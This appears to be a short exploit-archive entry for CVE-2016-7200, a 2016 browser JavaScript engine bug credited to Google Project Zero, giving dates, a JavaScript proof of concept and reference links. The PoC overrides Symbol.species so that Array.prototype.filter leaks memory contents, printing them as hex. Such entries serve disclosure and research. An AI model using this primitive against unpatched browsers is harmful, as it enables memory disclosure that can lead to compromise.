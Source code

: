 # CVE-2016-7200

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var b = new Array(1,2,3);
var d = new Array(1,2,3);
d.length = 0x200000;
d.fill(7);
class dummy{
  constructor(){
    //alert("in constructor");
    return d;
  }
}

class MyArray extends Array {
  // Overwrite species to the parent Array constructor
  static get [Symbol.species]() {

    //alert("get");
    b[0] = {};
    return dummy;
  }
}

var a = new Array({}, [], "natalie", 7, 7, 7, 7, 7);

for(var i = 0; i < 0x200000; i++) {
  a[i] = i;
}

function test(i){
  return true;
}

a.__proto__ = MyArray.prototype;

var o = a.filter(test);
//alert(o);
var h = [];

for(item in o){
  var n = new Number(o[item]);
  if (n < 0){
    n = n + 0x100000000;
  }
  h.push(n.toString(16));
}

//alert(h);
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=922)
- [Exploit by Theori](https://github.com/theori-io/chakra-2016-11)
